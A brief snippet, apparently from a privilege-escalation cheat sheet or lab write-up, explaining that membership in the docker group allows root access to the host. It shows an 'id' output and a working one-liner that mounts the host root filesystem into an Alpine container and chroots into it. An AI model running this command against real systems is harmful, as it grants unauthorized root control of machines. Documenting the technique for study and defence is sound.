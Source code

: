 If a user is in a docker group he can start a new docker container that will contain part of the file system of the machine:
```
$ id
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
```
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```